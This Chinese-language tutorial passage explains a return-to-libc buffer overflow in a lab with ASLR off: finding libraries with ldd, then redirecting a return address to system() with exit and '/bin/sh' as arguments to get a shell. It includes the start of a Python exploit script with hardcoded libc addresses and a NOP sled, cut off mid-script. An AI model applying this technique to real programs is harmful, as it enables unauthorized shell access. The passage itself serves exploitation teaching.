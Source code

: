 使用`ldd`命令查看程序在运行时所加载的库。

![ldd](/img/interestingBin/1489160105208.png)

几乎所有的程序在运行时都会加载`libc.so`，或者是在编译时进行静态链接。因此只要能够调用libc中的system函数和exec类函数，就能够夺取系统权限。

例子（关闭ASLR实验）

![Alt text](/img/interestingBin/1489160347008.png)

得到system和exit的地址。
这次就不需要将返回地址改成位于栈中的shellcode地址，而是改成system函数的入口地址，将system函数的返回目标设为exit，并将`/bin/sh`的地址作为参数传递过去。

```python
#!/usr/bin/python

import sys
from struct import *

if len(sys.argv) != 2:
	addr = 0x41414141
else:
	addr = int(sys.argv[1], 16) + 0x08

fsystem = int("b7e6c430", 16)
fexit   = int("b7e5ffb0", 16)

data  = "\x90\x90\x90\x90\x90\x90\x90\x90"
```